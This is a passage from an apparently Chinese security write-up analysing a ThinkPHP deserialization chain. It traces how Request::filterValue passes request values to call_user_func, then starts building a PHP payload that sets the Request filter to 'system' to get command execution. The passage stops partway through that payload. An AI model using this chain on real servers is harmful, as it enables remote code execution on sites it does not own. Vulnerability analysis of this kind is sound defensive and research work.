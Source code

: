 这里的$filter来自于this-&gt;filter，我们需要定义this-&gt;filter为函数名。

我们再来看一下input函数，有这么几行代码

```
....
if (is_array($data)) `{`
            array_walk_recursive($data, [$this, 'filterValue'], $filter);
            ...
```

这是一个回调函数，跟进filterValue函数。

```
private function filterValue(&amp;$value, $key, $filters)
    `{`
        $default = array_pop($filters);

        foreach ($filters as $filter) `{`
            if (is_callable($filter)) `{`
                // 调用函数或者方法过滤
                $value = call_user_func($filter, $value);
            `}` elseif (is_scalar($value)) `{`
                if (false !== strpos($filter, '/')) `{`
                    // 正则过滤
                    if (!preg_match($filter, $value)) `{`
                        // 匹配不成功返回默认值
                        $value = $default;
                        break;
                    `}`
         .......
```

通过分析我们可以发现filterValue.value的值为第一个通过GET请求的值，而filters.key为GET请求的键，并且filters.filters就等于input.filters的值。

我们尝试构造payload,这里需要namespace定义命名空间

```
&lt;?php
namespace think;
abstract class Model`{`
    protected $append = [];
    private $data = [];
    function __construct()`{`
        $this-&gt;append = ["ethan"=&gt;["calc.exe","calc"]];
        $this-&gt;data = ["ethan"=&gt;new Request()];
    `}`
`}`
class Request
`{`
    protected $hook = [];
    protected $filter = "system";
    protected $config = [
        // 表单请求类型伪装变量
        'var_method'       =&gt; '_method',
        // 表单ajax伪装变量
        'var_ajax'         =&gt; '_ajax',
        // 表单pjax伪装变量
        'var_pjax'         =&gt; '_pjax',
        // PATHINFO变量名 用于兼容模式
        'var_pathinfo'     =&gt; 's',
        // 兼容PATH_INFO获取
        'pathinfo_fetch'   =&gt; ['ORIG_PATH_INFO', 'REDIRECT_PATH_INFO', 'REDIRECT_URL'],
        // 默认全局过滤方法 用逗号分隔多个
        'default_filter'   =&gt; '',
        // 域名根，如thinkphp.cn
        'url_domain_root'  =&gt; '',
```